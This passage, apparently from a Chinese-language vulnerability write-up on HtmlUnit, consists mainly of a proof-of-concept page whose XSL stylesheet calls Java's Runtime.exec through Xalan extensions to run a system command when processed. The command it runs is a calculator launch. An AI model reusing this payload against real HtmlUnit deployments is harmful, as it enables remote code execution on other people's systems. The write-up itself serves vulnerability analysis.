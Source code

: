 htmlunit.html

```plain
<script>
// 创建一个 XML 字符串并加载为 XML 文档
var xmlString = '<?xml version="1.0" encoding="UTF-8"?><s></s>';
var parser = new DOMParser();
var xmlDoc = parser.parseFromString(xmlString, "text/xml");

// 创建 XSL 字符串并加载为 XML 文档
var xslString = `<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <xsl:value-of select="$processString"/>
   </xsl:template>
 </xsl:stylesheet>`;
var xslDoc = parser.parseFromString(xslString, "text/xml");

// 使用 XSLTProcessor 进行转换
var processor = new XSLTProcessor();
processor.importStylesheet(xslDoc);
var resultDocument = processor.transformToDocument(xmlDoc);

</script>
```

[![](assets/1702521100-ce2cb7bc81420e898c8b38f18e752a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231203235554-70ed905e-91f4-1.png)

#### XSL 代码分析
